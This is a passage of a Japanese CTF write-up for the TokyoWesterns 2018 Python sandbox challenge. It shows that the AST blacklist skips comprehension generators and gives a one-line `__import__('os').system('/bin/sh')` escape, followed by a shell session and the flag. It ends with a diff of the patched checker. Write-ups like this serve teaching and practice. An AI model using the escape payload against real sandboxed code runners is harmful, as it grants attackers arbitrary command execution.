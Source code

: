 
ユーザから与えられたコードを解析して、関数呼び出しなど禁止されている動作がない場合にのみそのコードを実行するようです。

このチェックに穴がないか調べてみましょう。

リスト内包表記のチェックを見てみましょう。コメント部分の `ListComp(expr elt, comprehension* generators)` とコード部分の `'ListComp': ['elt'],` を比較すると、`elt` の部分はチェックされているものの、`generators` の部分はチェックされていないことがわかります。

`[x for x in (__import__,) if x('os').system('/bin/sh')]` を投げてみると、シェルを得ることができました。

```
$ nc pwn1.chal.ctf.westerns.tokyo 30001
[x for x in (__import__,) if x('os').system('/bin/sh')]
ls
flag
run.sh
sandbox.py
ls -la
total 32
drwxr-x---  2 root pysandbox 4096 Sep  2 18:10 .
drwxr-xr-x 15 root root      4096 Sep  2 17:03 ..
-rw-r-----  1 root pysandbox  220 Aug 31  2015 .bash_logout
-rw-r-----  1 root pysandbox 3771 Aug 31  2015 .bashrc
-rw-r-----  1 root pysandbox  655 May 16  2017 .profile
-rw-r-----  1 root pysandbox   50 Sep  2 04:38 flag
-rwxr-x---  1 root pysandbox   46 Sep  2 16:53 run.sh
-rw-r-----  1 root pysandbox 3024 Sep  2 18:08 sandbox.py
cat flag
TWCTF{go_to_next_challenge_running_on_port_30002}
```

```
TWCTF{go_to_next_challenge_running_on_port_30002}
```

### [Misc 126] (FLAG 2)

FLAG 1 に以下のような変更が加えられました。

```diff
--- app.py      2018-09-03 05:57:15.035099300 +0900
+++ "2\\app.py" 2018-09-03 07:11:00.021181700 +0900
@@ -1,46 +1,55 @@
 import sys
 import ast
+import hashlib


-blacklist = [ast.Call, ast.Attribute]
+def check_flag1():
+    sys.stdout.write('input sha512(flag1) >> ')
+    sys.stdout.flush()
+    s = sys.stdin.readline().strip()
+    flag = open('./flag', 'rb').read().strip()
+    if hashlib.sha512(flag).hexdigest() != s:
+        exit()
+    sys.stdout.write(open(__file__, 'rb').read().decode())
+    sys.stdout.flush()
@@ -52,10 +61,10 @@
             'IfExp': ['test', 'body', 'orelse'],
             'Dict': ['keys', 'values'],
             'Set': ['elts'],
-            'ListComp': ['elt'],
-            'SetComp': ['elt'],
-            'DictComp': ['key', 'value'],
-            'GeneratorExp': ['elt'],
+            'ListComp': ['elt', 'generators'],
+            'SetComp': ['elt', 'generators'],
```